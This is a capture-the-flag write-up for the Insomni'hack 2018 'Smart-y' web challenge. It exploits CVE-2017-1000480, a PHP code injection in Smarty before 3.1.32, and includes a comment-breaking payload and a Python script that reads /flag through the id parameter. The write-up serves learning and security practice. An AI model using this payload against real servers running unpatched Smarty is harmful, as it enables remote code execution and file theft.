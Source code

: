 # Reference

[//]: <> (文章所涉及到的技术点、WriteUp的链接)

https://github.com/YoloSw4g/writeups/tree/master/2018/Insomni'hack-Teaser-2018/web-Smart-y

https://blog.christophetd.fr/write-insomnihack-2018-ctf-teaser/#Smart-Y

# Title

[//]: <> (题目)

Last year, a nerd destroyed the system of Robot City by using some evident flaws. It seems that the system has changed and is not as evident to break now.

http://smart-y.teaser.insomnihack.ch

# Content

[//]: <> (WriteUp内容)

![](Resource/1.png)

If we click on the arrow on the right few times, we are redirected to the following page, where we can use the <<<DEBUG>>> link to see its PHP source.

![](Resource/2.png)

```php
<?php 
if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; } 
include_once('./smarty/libs/Smarty.class.php'); 
define('SMARTY_COMPILE_DIR','/tmp/templates_c'); 
define('SMARTY_CACHE_DIR','/tmp/cache'); 
  
  
class news extends Smarty_Resource_Custom 
{ 
    protected function fetch($name,&$source,&$mtime) 
    { 
        $template = "The news system is in maintenance. Please wait a year. <a href='/console.php?hl'>".htmlspecialchars("<<<DEBUG>>>")."</a>"; 
        $source = $template; 
        $mtime = time(); 
    } 
} 
  
// Smarty configuration 
$smarty = new Smarty(); 
$my_security_policy = new Smarty_Security($smarty); 
$my_security_policy->php_functions = null; 
$my_security_policy->php_handling = Smarty::PHP_REMOVE; 
$my_security_policy->modifiers = array(); 
$smarty->enableSecurity($my_security_policy); 
$smarty->setCacheDir(SMARTY_CACHE_DIR); 
$smarty->setCompileDir(SMARTY_COMPILE_DIR); 
$smarty->registerResource('news',new news); 
$smarty->display('news:'.(isset($_GET['id']) ? $_GET['id'] : ''));  
```

It looks like the code is using the [Smarty](https://www.smarty.net/) template engine. If we browse to /smarty, we see a directory listing of the Smarty files. By opening the change_log.txt file, we’re able to see that the Smarty version being used is the 3.1.31.

After a bit of googling, we find that Smarty before 3.1.32 is vulnerable to [CVE-2017-1000480](https://nvd.nist.gov/vuln/detail/CVE-2017-1000480).

>Smarty 3 before 3.1.32 is vulnerable to a PHP code injection when calling fetch() or display() functions on custom resources that does not sanitize template name.

Interestingly, no exploit has yet been released for this vulnerability. By searching a little bit more, we can find [the commit](https://github.com/smarty-php/smarty/commit/614ad1f8b9b00086efc123e49b7bb8efbfa81b61) which fixed the vulnerability.

![](Resource/3.png)

As one can guess, the vulnerability is caused by the fact that $source->filepath is not validated (second diff), and is being printed in the template generated by Smarty (first diff). We see that it is printed inside a PHP comment:
```php
$output .= "/* Smarty version [...] from \"" . $template->source->filepath . "\" */...";
```

If we set the filepath to */ echo 'pwned'; /*, the expression above evaluates to:

```php
$output .= "/* Smarty version [...] from \"*/ echo 'pwned'; /*\" */...";
```

Once generated, the template will therefore contain the code we injected in it, resulting in arbitrary code execution.

As one can see from the [Smarty source](https://github.com/smarty-php/smarty/commit/614ad1f8b9b00086efc123e49b7bb8efbfa81b61#diff-c18c361cf06b21f46e6d5ae3d3330a2fL50), the filepath variable is constructed as the concatenation of the type of the resource, and its name. In the code of the challenge’s ```console.php```, we have:

```php
$smarty->display('news:'.(isset($_GET['id']) ? $_GET['id'] : ''));  
```

Here, news is the type of the resource, and the id URL variable (which we control) will be the name. Thus, we can easily control the vulnerable filepath variable.

```python
import requests

code = "echo file_get_contents('/flag') . '\n';"
response = requests.get('http://smart-y.teaser.insomnihack.ch/console.php', {
	'id': "*/ %s /*" % code
})

print(response.text)
```

Which gives us the flag.

```
INS{why_being_so_smart-y}

The news system is in maintenance. Please wait a year. <<<DEBUG>>>
```